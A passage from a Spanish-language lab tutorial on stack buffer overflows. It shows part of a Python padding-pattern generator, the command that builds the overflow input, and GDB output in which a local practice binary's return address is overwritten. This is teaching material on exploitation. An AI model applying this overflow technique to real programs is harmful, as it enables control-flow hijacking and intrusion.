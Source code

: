 ```python
    pattern = generate_pattern(args.buffer, args.offset, args.padding)
    print("\n=== Patrón Generado ===")
    print(pattern)

if __name__ == "__main__":
    main()
```

Por lo que vamos a crear lo siguiente:

```shell
python3 overflowCreate.py -b 88 -o 4
```

Info:

```
=== Patrón Generado ===
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Y ahora ese patron se lo vamos a insertar en el `GDB` de la aplicacion, ejecutando `run`, si pegamos todo esto, veremos lo siguiente:

```
Starting program: /home/kali/Desktop/stack/command_exec 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Escribe la contraseña: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Estás en modo usuario (key = 41414141)
key debe valer 0xdead para entrar al modo administrador

Program received signal SIGSEGV, Segmentation fault.
0x00007f0042424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 RAX  0
 RBX  0x7fffae0717c8 —▸ 0x7fffae0734eb ◂— '/home/kali/Desktop/stack/command_exec'
 RCX  0x7f6f791c2210 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7f6f792a7710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x5557c9fdb2a0 ◂— 'key debe valer 0xdead para entrar al modo administrador\n'
 R8   0
 R9   0xfffffff8
 R10  3
 R11  0x202
 R12  0
 R13  0x7fffae0717d8 —▸ 0x7fffae073511 ◂— 'COLORTERM=truecolor'
 R14  0x7f6f79304000 (_rtld_global) —▸ 0x7f6f793052e0 —▸ 0x5557c91e5000 ◂— 0x10102464c457f
 R15  0x5557c91e8dd8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x5557c91e6150 (__do_global_dtors_aux) ◂— endbr64 
 RBP  0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffae0716c0 —▸ 0x7fffae0717b0 —▸ 0x7fffae0717b8 ◂— 0x38 /* '8' */
 RIP  0x7f0042424242
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────
Invalid address 0x7f0042424242








```